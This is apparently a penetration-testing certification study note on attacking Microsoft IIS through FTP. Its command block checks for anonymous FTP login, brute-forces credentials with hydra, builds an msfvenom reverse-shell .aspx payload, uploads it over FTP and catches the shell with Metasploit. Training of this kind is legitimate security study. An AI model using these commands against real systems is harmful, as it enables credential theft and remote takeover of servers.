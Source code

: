 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/Exploitation/Windows Exploitation/Windows Exploitation]]"
---
```


# Targeting Microsoft IIS FTP

- If you see Microsoft ftpd (port 21) it's used in combination with Microsoft IIS httpd (port 80)

## Demonstration

```bash
# test ftp anon auth
$ nmap -sV -p 21 --script ftp-anon <ip>
# hydra brute force ftp
$ hydra -L unix_users.txt -P unix_passwords.txt <ip> ftp
$ hydra -l <username> -P unix_passwords.txt <ip> ftp
# connect
$ ftp <ip> <port>
$ msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=1234 -f asp > shell.aspx
ftp> put shell.aspx
> use multi/handler
```
